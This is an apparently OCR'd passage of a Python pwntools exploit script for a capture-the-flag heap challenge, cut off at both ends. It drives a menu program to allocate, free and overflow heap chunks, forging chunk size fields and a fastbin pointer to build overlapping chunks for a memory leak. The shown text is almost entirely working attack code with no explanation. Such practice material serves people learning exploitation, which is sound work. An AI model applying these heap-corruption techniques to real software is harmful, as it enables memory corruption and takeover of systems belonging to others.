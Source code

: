 ```python
	print p.recv()

def fn_fill(idx, size, content):
	p.sendline("2")
	print p.recv()

	p.sendline(str(idx))
	print p.recv()

	p.sendline(str(size))
	print p.recv()

	p.send(content)
	print p.recv()

def fn_dump(idx):
	p.sendline("4")
	print p.recv()

	p.sendline(str(idx))
	recv = p.recv()
	return recv

def leak(addr, size):
	print hexdump(p.leak(addr, size))

print p.recv()

heap_base = 0x555555757000

fn_alloc(0x20) # idx : 0 (0x...00)
fn_alloc(0x20) # idx : 1 (0x...30)
fn_alloc(0x20) # idx : 2 (0x...60)
fn_alloc(0x20) # idx : 3 (0x...90)
fn_alloc(0x80) # idx : 4 (0x...c0)

fn_free(1) # del [1]
fn_free(2) # del [2, 1]

payload = ""
payload += p64(0) * 5
payload += p64(0x31)
payload += p64(0) * 5
payload += p64(0x31)
payload += p8(0xc0)

fn_fill(0, len(payload), payload)

#leak(heap_base, 0x100)

payload = ""
payload += p64(0) * 5
payload += p64(0x31)
fn_fill(3, len(payload), payload)

fn_alloc(0x20)
fn_alloc(0x20)

payload = ""
payload += p64(0) * 5
payload += p64(0x91)
fn_fill(3, len(payload), payload)
fn_alloc(0x80) # to create FD, BK in idx:4
```